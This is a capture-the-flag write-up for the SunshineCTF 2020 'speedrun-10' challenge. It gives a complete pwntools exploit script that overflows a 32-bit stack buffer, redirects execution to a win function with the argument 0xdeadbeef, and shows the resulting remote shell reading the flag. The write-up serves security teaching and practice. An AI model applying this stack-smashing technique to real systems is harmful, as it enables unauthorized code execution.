 This is exactly the same as [speedrun-02](#speedrun-02) except that to get a
shell we need to pass an argument.  Since this is 32-bit we pass that on the
stack.  The arg needs to be `-0x21524111` (`0xdeadbeef`).

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_10')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30010)

p.sendlineafter('Don\'t waste your time, or...\n','foobar')

payload  = b''  
payload += 0x3e * b'A'  
payload += p32(binary.sym.win)  
payload += p32(0)  
payload += p32(0xdeadbeef)

p.sendline(payload)  
p.interactive()  
```

Just like [speedrun-02](#speedrun-02), `0x3e` (`local_3e` _remember?_) of
garbage followed by the location of `win`.  BUT... we need to setup a stack
frame as if we _called_ `win`.  For x86 (32-bit) the next parameter on the
stack needs to be the return address the function (`win`) will return to,
however, since we just want that sweet sweet `system` shell we don't really
care if the program crashes after we get the flag, so set to whatever you
like.  The last value we smash onto the stack is the first argument to
`win`--`0xdeadbeef`.

Output:

```bash  
# ./exploit_10.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-10/chall_10'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30010: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_10) gid=1000(chall_10) groups=1000(chall_10)  
$ ls -l  
total 12  
-rwxr-xr-x 1 root root     7348 Nov  7 07:49 chall_10  
-rw-r----- 1 root chall_10   39 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{second-heartbeat-aeaff82332769d0f}  
```
